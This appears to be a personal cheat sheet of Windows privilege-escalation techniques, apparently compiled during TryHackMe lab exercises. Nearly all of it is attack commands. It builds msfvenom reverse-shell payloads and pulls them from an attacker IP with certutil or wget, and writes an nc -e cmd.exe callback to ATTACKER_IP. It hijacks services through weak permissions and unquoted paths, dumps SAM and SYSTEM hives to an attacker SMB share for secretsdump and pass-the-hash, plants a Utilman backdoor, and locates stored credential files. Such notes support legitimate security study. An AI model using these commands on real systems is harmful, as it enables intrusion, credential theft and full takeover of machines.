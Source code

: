 
can use iron corp to test win stuff

if webshell
	get info on current dir `cd`
	go to and list contents of a dir `cd C:\Windows\Microsoft.NET\Framework\ && dir`

First checks
	List environment
		cmd: `set`
		ps: `Get-ChildItem env: | Format-Table -Wrap`
	whatever

Check for credentials left from unattended installation:
	`C:\Unattend.xml`
	`C:\Windows\Panther\Unattend.xml`
	`C:\Windows\Panther\Unattend\Unattend.xml`
	`C:\Windows\system32\sysprep.inf`
	`C:\Windows\system32\sysprep\sysprep.xml`
	File format: [[unattended installation credential files]]

Powershell history
	cmd: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
	ps: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

Other interesting files
	`\windows\win.ini`
	sam

Saved credentials
	cmd/ps: `cmdkey /list` no passwords, but can be used with `runas /savecred /user:admin cmd.exe`

Configuration files
	find strings in logfiles
		cmd/ps: `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
	IIS
		`C:\inetpub\wwwroot\web.config`
		`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	Putty
		cmd/ps: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s` proxy creds?
	Add more - software that store creds have methods to retrieve them - browsers, email-, FTP-, SSH clients, VNC software ...

Scheduled tasks
	`schtasks` list all tasks
	`schtasks /query /tn [taskname] /fo list /v` get more info on task
	`schtasks /run /tn [taskname]` start task (if perms)

Permissions and ownership
	`icacls` [[icacls]]

Getting text into text files at ps/cmd-prompt
	cmd: `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

MSI installation perms
	These reg keys needs to be set to exploit AlwaysInstallElevated:
		`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
		`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
	Generate msi:
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`
	Run it:
		`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

Services
	[[services, control]]
	Get info
		ps: `Get-Service` list services
		`sc qc [service name]` get info on specific service
	Service info location in registry
		`HKLM\SYSTEM\CurrentControlSet\Services\`
	Get perms
		ps, cmd: `icacls [service executable]` executable = BINARY_PATH_NAME in sc, ImagePath in registry
		can be found by winpeas
		set perms
			ps, cmd: `icacls "C:\PROGRA~2\SYSTEM~1\WService.exe" /grant Everyone:F`
	Exploiting Modify permissions on the service exe - Generate service executable, upload, set perms
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `Stop-Service -Name WindowsScheduler -Force`
		cmd: `net stop WindowsScheduler`
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Start-Service -Name "SERVICE-NAME"`
		cmd: `net start "SERVICE-NAME"`
	Exploiting Unquoted Service Paths
		Execution order of unquoted path: `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
			1. `C:\MyPrograms\Disk.exe`
			2. `C:\MyPrograms\Disk Sorter.exe`
			3. `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\MyPrograms\Disk.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\MyPrograms\Disk.exe"`
		ps, cmd: `icacls C:\MyPrograms\Disk.exe /grant Everyone:F`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name "SERVICE-NAME" -Force`
		cmd: `net stop "SERVICE-NAME" && net start "SERVICE-NAME"`
	Exploiting Insecure Service Permissions
		ps, cmd: `sc.exe sdshow thmservice` Check service permissions [[permissions SDDL]]
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\Users\thm-unpriv\rev-svc3.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\Users\thm-unpriv\rev-svc3.exe"`
		ps, cmd: `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
		To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):
		ps:  `sc.exe config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		cmd: `sc config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name THMService -Force`
		cmd: `net stop "SERVICE-NAME" && net start THMService`

Check your current integrity level with
	`whoami /groups`
	more info https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels

Privileges
	`whoami /priv` shows only current ones, not the admin mode ones (like being in the backup group ones)
	`whoami /all` to see groups too as we probably have to open cmd as admin to get all privileges
	[Complete list of privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
	Find ways to exploit: [here](https://github.com/gtworek/Priv2Admin)
	If `SeBackupPriviledge` we can read any file
		`reg save hklm\system C:\Users\THMBackup\system.hive`
		`reg save hklm\sam C:\Users\THMBackup\sam.hive`
		atk: `sudo impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 myshare ../dirname`
		`copy sam.hive \\10.18.21.236\myshare`
		`copy system.hive \\10.18.21.236\myshare`
		atk: `impacket-secretsdump -sam sam.hive -system system.hive LOCAL`
		atk: `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.62.147`
	if `SeTakeOwnershipPrivilege` we can take ownership of any object on the system, including files and registry keys
		`takeown /f C:\Windows\System32\Utilman.exe`
		`icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
		`copy cmd.exe utilman.exe`
		Lock the console and press `Win+U`
	if `SeImpersonate` or `SeAssignPrimaryToken`
		Account with these privs: `LOCAL SERVICE`, `NETWORK SERVICE ACCOUNTS`, `iis apppool\defaultapppool`, others?
		Exploit this by:
			1. spawn a process with ^ that users can connect and authenticate to
			2. force privileged users to connect and authenticate
	https://www.exploit-db.com/papers/42556
	SeTcbPrivilege
	SeRestorePrivilege
	SeCreateTokenPrivilege
	SeLoadDriverPrivilege
	SeDebugPrivilege
	play with these on thm alfred


Installed/unpatched software
	`wmic product get name,version,vendor` enum programs - also check desktop shortcuts, start menu, available services...
	look for exploits for the apps
	Druva inSync 6.6.3 - example https://www.exploit-db.com/exploits/49211

HotFixes
	`wmic qfe get Caption,Description,HotFixID,InstalledOn`

List drive letters
	`(wmic logicaldisk get caption 2>nul | more) || (fsutil fsinfo drives 2>nul)`

Metasploit
	go from nc shell to msf
		make msfvenom payload
			`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.21.236 LPORT=444 -f exe -o revsh-meterpr-444.exe`
		from the box - copy to box
			`certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" "C:\windows\temp\revsh-meterpr-444.exe"`
		start metasploit listener on attacker machine
			`msfconsole -q`
				`use exploit/multi/handler`
				`set payload windows/meterpreter/reverse_tcp`
				`set lhost 10.18.21.236`
				`set lport 444`
				`options` check that it's all correct
				`run` will start listening
		from the box - start revsh
			`C:\windows\temp\revsh-meterpr-444.exe`
	if connected
		`multi/recon/local_exploit_suggester`

Tools
	WinPEAS
		 https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS exe, bat & ps1 versions
		cmd: `certutil -urlcache -split -f http://10.18.21.236:8000/enum/winPEASany.exe C:\windows\temp\winpeas.exe`
		ps: `iwr "http://10.18.21.236:8000/enum/winPEASany.exe" -outfile "C:\windows\temp\winpeas.exe"`
		`winpeas > log.txt`
	PrivescCheck
		https://github.com/itm4n/PrivescCheck
		Bypass execution policy restrictions before running:
			`Set-ExecutionPolicy Bypass -Scope process -Force`
			`. .\PrivescCheck.ps1`
			`Invoke-PrivescCheck`
		Basic check
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
		Extended checks + human-readable reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"`
		All checks + all reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"`
	WES-NG
		https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
		runs on attacker box
		install, run "wes.py --update" to upd database
		run `systeminfo > info.txt` on windows box
		run `wes.py info.txt` on attacker box

